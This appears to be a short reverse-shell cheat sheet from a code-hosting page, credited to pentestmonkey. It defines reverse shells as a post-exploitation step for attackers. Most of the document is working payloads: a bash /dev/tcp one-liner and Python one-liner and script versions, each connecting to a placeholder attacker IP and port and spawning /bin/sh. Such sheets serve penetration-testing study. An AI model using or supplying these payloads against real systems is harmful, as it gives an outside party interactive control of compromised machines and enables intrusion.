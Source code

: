 # REVERSE SHELL CHEAT SHEET

> Source : http://pentestmonkey.net/

<br>

A reverse shell is **a shell session established on a connection that is initiated from a remote machine**, not from the local host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack

<br>

IP : Attacker IP address

PORT: Listening Port ( Attacker )

<br>

__Bash__

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

__Python__

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<IP>", <PORT>))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

